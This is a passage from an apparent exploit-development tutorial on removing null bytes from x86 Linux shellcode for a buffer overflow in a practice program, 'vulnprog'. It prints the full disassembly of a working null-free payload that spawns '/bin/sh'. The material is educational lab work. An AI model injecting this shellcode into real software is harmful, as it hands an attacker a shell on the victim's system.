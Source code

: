 - As you can see I set breakpoint right before the call to see what is inside `eax` before it gets called.
- But inspecting the offset `$ebp-0x408` and you can see a `jmp` instruction which ruins your life.
- Well our command line argument the `printf` command contains a string with __5 null byte characters.__
- And that is a problem, __because `strncpy` function stops at first null byte character.__

## Removing NULL bytes

- Look at the `objdump` of previous shellcode and you will see that the following instructions create NULL bytes:
1. `push 0x0` - pushing a NULL value
2. `push e*b` - pushing any 4 byte register

- Solution to the first problem is to use `xor` operation to create NULL bytes without actually writing any of them.
- Solution to the second problem is to use `BYTE PTR` instead of `DWORD PTR` (using first byte of those registers).

- Check `shellv3.asm`, assemble it and run `objdump` against it:

```sh
$ objdump -M intel -d ./bin/shellv3

Disassembly of section .text:

08049000 <_start>:
 8049000:       eb 17                   jmp    8049019 <callback>

08049002 <callshell>:
 8049002:       5e                      pop    esi
 8049003:       31 c0                   xor    eax,eax
 8049005:       50                      push   eax
 8049006:       56                      push   esi
 8049007:       31 d2                   xor    edx,edx
 8049009:       b0 0b                   mov    al,0xb
 804900b:       89 f3                   mov    ebx,esi
 804900d:       89 e1                   mov    ecx,esp
 804900f:       cd 80                   int    0x80
 8049011:       31 c0                   xor    eax,eax
 8049013:       b0 01                   mov    al,0x1
 8049015:       31 db                   xor    ebx,ebx
 8049017:       cd 80                   int    0x80

08049019 <callback>:
 8049019:       e8 e4 ff ff ff          call   8049002 <callshell>
 804901e:       2f                      das
 804901f:       62 69 6e                bound  ebp,QWORD PTR [ecx+0x6e]
 8049022:       2f                      das
 8049023:       73 68                   jae    804908d <callback+0x74>
```

- No more NULL bytes, now convert it into hex bytes string and run it inside `./bin/vulnprog`:
